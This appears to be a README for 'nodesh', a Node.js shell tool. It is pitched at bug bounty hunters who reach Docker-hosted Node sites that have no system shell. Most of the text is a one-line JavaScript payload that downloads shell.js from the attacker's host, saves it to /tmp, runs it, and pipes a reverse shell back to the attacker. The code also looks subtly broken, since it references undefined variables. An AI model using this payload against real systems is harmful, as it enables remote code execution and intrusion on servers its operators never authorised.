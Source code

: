 # nodesh
During a bug bounty hunt, I came across a site hosted inside a Docker container with no shell inside whatsoever, only the technology stack (in this case, Node.js) that this site was powered by. Because Node has some powerful file system enumeration APIs, I was able to write a simple shell from scratch using them, and to speed up development, decided to open source it.

Fellow ethical hackers and/or penetration testers: This tool is here for those of you who find something similar. No shell on the target, no problem; simply use the following payload to drop this and send it back:

```
(function() { const { URL } = require('url'); const http = require('http'); const dest = "/tmp/shell.js"; const parsedUrl = new URL("http://YOUR_IP:PORT/shell.js"); const request = http.get(url, (response) => { if (response.statusCode !== 200) { console.log(`Download failed with status code ${response.statusCode}`); return; }; const file = fs.createWriteStream(dest); response.pipe(file);  file.on('finish', () => { console.log("Shell dropped successfully"); file.close(); (function() {var net = require("net"), cp = require("child_process"), sh = cp.spawn("/path/to/node", ["/tmp/shell.js"]); var client = new net.Socket(); client.connect(PORT, "YOUR_IP", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})(); }); file.on('error', (err) => { fs.unlink(dest, () => console.log(`Error downloading file: ${err}`)); }); }); } )();
```
